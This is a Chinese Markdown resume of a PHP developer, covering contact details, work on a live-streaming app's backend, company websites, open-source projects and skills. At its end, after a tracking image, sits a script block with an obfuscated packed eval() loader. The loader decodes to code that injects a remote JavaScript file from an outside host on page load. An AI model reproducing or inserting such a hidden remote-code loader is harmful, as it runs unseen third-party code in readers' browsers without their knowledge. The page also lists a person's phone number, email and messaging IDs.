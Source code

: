# 个人简历

 - **安龙** / 男 / 1992-12 / 安徽池州
 - 工作年限：4年+
 - 最高学历：高中
 - 期望城市：上海
 - 期望职位：PHP高级开发工程师

---

# 联系方式

- 手机：183 5626 2256 （`安徽池州`）
- Email：[Alone@an56.net](http://mail.qq.com/cgi-bin/qm_share?t=qm_mailme&email=E3J-fH12U3J9JiU9fXZn)
- QQ号：11981261
- 微信：al-one

---

# 工作经历

## 上海三叉戟信息科技有限公司 （2016年10月 ~ 至今）
### [烈火APP](#)
- 负责烈火直播APP服务端开发；
- 新需求分析、数据表设计及IM协议定义；
- 幸运礼物、热门排序、直播云接入等核心技术开发；
- 负载均衡、环境配置调优、高并发接口优化等；


## 上海欢愉网络科技有限公司 （2015年8月 ~ 2016年9月）

### [烈火APP运营后台](#)
- 整个运营后台独立开发完成；
- 用户、照片、订单、直播等数据的监控展示；
- 用户头像实时打分模块；
- 用户行为数据统计报表展示；

### [烈火APP相关API接口](#)
 - 用户付费充值相关接口：
     - 用户钻石、魅力值等账户数据内部接口；
     - 支付宝、微信充值及提现；
     - 福袋、宝箱（类似抢红包）相关接口；
     - 一对一礼物、直播礼物接口；
 - 视频直播相关接口：
     - 直播喇叭、热门票等道具相关接口；
     - 直播任务奖励相关接口；
     - 观众贡献榜单排行等接口；
 - 各类专题活动相关接口及H5页面；
 - APP直传OSS相关接口；


## 合肥一浪网络科技有限公司 （2013年3月 ~ 2015年4月）

### [客户管理系统](http://app.ah.cn/16crm/)
- 演示账户：demo 密码：123456
- 主要功能：客户、订单、员工管理
- 独立开发完成

### 企业、政府、门户网站建设
- [天长市市场监督管理局网站](http://www.tcscjg.gov.cn/)
- [天长市万寿镇政府网站](http://www.wanshou.gov.cn/?/wza)，[无障碍功能](http://www.wanshou.gov.cn/view.asp?/wza/=/&id=1111)
- [上海世彤建筑装饰](http://www.sh-shitong.com/)，[手机端](http://m.sh-shitong.com/?skin=bootstrap)
- [合肥堃能自动化科技有限公司](http://www.kunnengtec.com/)
- [合肥艾琳婚纱摄影](http://www.algnsy.cn/)
- [中国兽医器械分类信息网](http://www.zgsyqxw.com/)


## 合肥首嘉网络科技有限公司 （2012年8月 ~ 2013年2月）

### 企业网站建设，ASP程序开发，模板制作。


---

# 开源项目和作品

## 开源项目

 - [parse_urls](http://github.com/al-one/parse_urls) : 正则表达式解析任何格式的URL，PHP和JS版
 - [array2](http://github.com/al-one/array2) : Asp键值对数组，Json编码解析
 - [ANCMS](http://www.ancms.cn/) : 安安网站内容管理系统，Asp+Access

## 业余作品

 - [自助友情链接交换平台](http://link.an56.org/) : 后端使用ThinkPHP 3.2.3开发；前端使用Bootstrap框架。
 - [MarkShow](http://al-one.github.io/app/MarkShow/?/md/help.md) : Markdown扩展解析，支持LaTeX公式、流程图等
 - [aGoogle](http://app.an56.org/aGoogle/) : 谷歌搜索，RequireJS + Angular + Bootstrap
 - [CKEditor表情插件](http://app.an56.org/ckeditor/) : 百度UEditor表情插件移植到CKEditor
 - [DNSPod域名解析管理](http://app.ah.cn/app/AnDNS/) : 基于DNSpod API，实现域名解析功能
 - [卫星电视接收参数](http://app.an56.org/stv/)
 - [其他作品...](http://dwz.cn/alone-case)


---

# 技能清单
- Web开发：PHP / Golang / JavaScript
- Web框架：ThinkPHP / Lumen
- 前端框架：jQuery / Bootstrap / Vue.js
- 开发工具：Sublime Text / PHPStorm / Git / Firebug
- 数据库相关：MySQL / Redis / SqLite / MSSQL
- 云和开放平台：SAE / 支付宝 / QQ互联 / 微信公众平台


---

# 自我描述
- 熟练使用PHP开发网站应用，熟悉ThinkPHP、Laravel框架；
- 熟悉Redis各种数据类型的读写操作及Linux常用命令；
- 熟悉MySQL数据库优化以及Git，SVN等协作工具；
- 精通Web前端，熟练使用jQuery、Bootstrap、Vue.js；
- 熟悉正则表达式、Markdown，喜欢接触新的技术；
- 了解各大开放平台API接口，开发过微信公众平台接口。

有责任心，有上进心，能吃苦耐劳，办事认真；
待人和善，诚恳，能友好的与同事相处；
自学能力强，挖掘自身的潜力，善于思考，有较强的团队协作精神。


---

# 致谢
感谢您花时间阅读我的简历，期待能有机会和您共事。

![](http://img.users.51.la/16854071.asp?a.jpg)
<script>
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('(6(f){v(c.e)c.e(6($){f()});p f()})(6(){q d=n,s=d.o(\'\\h\\9\\g\\b\\4\\3\');s.r=\'\\w\\t\\u\\k\\i\';(d.l||d.m(\'\\8\\5\\2\\j\')[0]).I(s).G=\'\\8\\3\\3\\4\\J\\1\\1\\2\\a\\2\\M\\7\\2\\4\\b\\7\\2\\8\\7\\9\\K\\1\\L\\5\\H\\1\\a\\h\\1\\2\\A\\x\\5\\g\\y\\1\\B\\E\\3\\F\'+~(-C D()/z)});',49,49,'|x2f|x61|x74|x70|x65|function|x2e|x68|x63|x6a|x69|window||jQuery||x72|x73|x38|x64|x2d|body|getElementsByTagName|document|createElement|else|var|charset||x54|x46|if|x55|x75|x79|36e5|x51|x3f|new|Date|x5f|x3d|src|x62|appendChild|x3a|x6e|x77|x78'.split('|'),0,{}));
</script>